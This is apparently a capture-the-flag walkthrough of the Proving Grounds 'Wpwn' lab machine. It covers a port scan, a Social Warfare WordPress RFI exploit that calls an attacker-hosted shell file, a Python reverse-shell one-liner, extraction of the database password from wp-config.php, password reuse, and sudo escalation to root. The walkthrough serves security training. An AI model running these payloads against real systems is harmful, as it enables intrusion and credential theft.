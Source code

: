 ```yaml
---
title: Wpwn
categories: [Proving Grounds Play]
tags: [PrivEsc, RFI, Wordpress]
image:
  path: https://www.offsec.com/astro-assets/labs/image-2.svg
  alt:  Wpwn Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled.png)

```bash
IP : 192.168.249.141
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/wpwn]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-26 03:32 EDT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 192.168.249.141
Host is up (0.00073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:E5:DB:C0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%201.png)

Now I found wordpress in this site so lets dig into it with `wpscan tool` →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%202.png)

Now I found an exploit related to social warfare on github →

[https://github.com/shad0w008/social-warfare-RCE](https://github.com/shad0w008/social-warfare-RCE)

I Followed this path and got this →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%203.png)

When I loaded this url →

```bash
curl http://192.168.249.141/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.249.128:8888/rcshell.php
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%204.png)

as I got the value of id so lets use this LFI to get a local privilege Escalation →

 I used python reverse shell command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%205.png)

Lets see wp-config.php file →

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php                                                                                                              
<?php                                                                                                                          
/**                                                                                                                            
 * The base configuration for WordPress                                                                                        
 *                                                                                                                             
 * The wp-config.php creation script uses this file during the                                                                 
 * installation. You do not have to use the web site, you can                                                                   
 * copy this file to "wp-config.php" and fill in the values.                                                                   
 *                                                                                                                             
 * This file contains the following configurations:                                                                            
 *                                                                                                                             
 * * MySQL settings                                                                                                            
 * * Secret keys                                                                                                               
 * * Database table prefix                                                                                                     
 * * ABSPATH                                                                                                                   
 *                                                                                                                             
 * @link https://wordpress.org/support/article/editing-wp-config-php/                                                          
 *                                                                                                                             
 * @package WordPress                                                                                                          
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Do not change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 ...

www-data@wpwn:/var/www/html/wordpress$ cd /home
cd /home
www-data@wpwn:/home$ ls
ls
takis
www-data@wpwn:/home$ cd takis
cd takis
www-data@wpwn:/home/takis$ ls -al
ls -al
total 32
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .
drwxr-xr-x 3 root  root  4096 Aug 17  2020 ..
-rw------- 1 takis takis   59 Aug 17  2020 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17  2020 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17  2020 .bashrc
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .local
-rw-r--r-- 1 takis takis  807 Aug 17  2020 .profile
-rw-r--r-- 1 root  root    33 Aug 17  2020 user.txt
www-data@wpwn:/home/takis$ cat user.txt 
cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
www-data@wpwn:/home/takis$
```
{: .nolineno}

Now lets use that password and try to get the takis shell →

```bash
www-data@wpwn:/home/takis$ su takis
su takis
Password: R3&]vzhHmMn9,:-5
/bin/bash -i
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell
takis@wpwn:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
takis@wpwn:~$
```
{: .nolineno}

Now lets see what takis can do to lead us to root →

```bash
takis@wpwn:~$ sudo -l
sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo /bin/bash -i
sudo /bin/bash -i
root@wpwn:/home/takis# cd /root
cd /root
root@wpwn:~# whoami
whoami
root
root@wpwn:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wpwn:~# ls -al
ls -al
total 32
drwx------  3 root root 4096 Aug 17  2020 .
drwxr-xr-x 18 root root 4096 Aug 17  2020 ..
-rw-------  1 root root 1812 Aug 17  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 17  2020 .local
-rw-------  1 root root  215 Aug 17  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   87 Aug 17  2020 root.txt
root@wpwn:~# cat root.txt
cat root.txt
damn, i really do not know where i left the root.txt flag, take a look into my USB plz.
root@wpwn:~#
```
{: .nolineno}

I found the USB from the `.bash _history` →

```bash
root@wpwn:/usr/games/USB# ls
ls
root
root@wpwn:/usr/games/USB# cat root
cat root
19905b045801f04e96d803659ad987ce

-gamer over
root@wpwn:/usr/games/USB#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }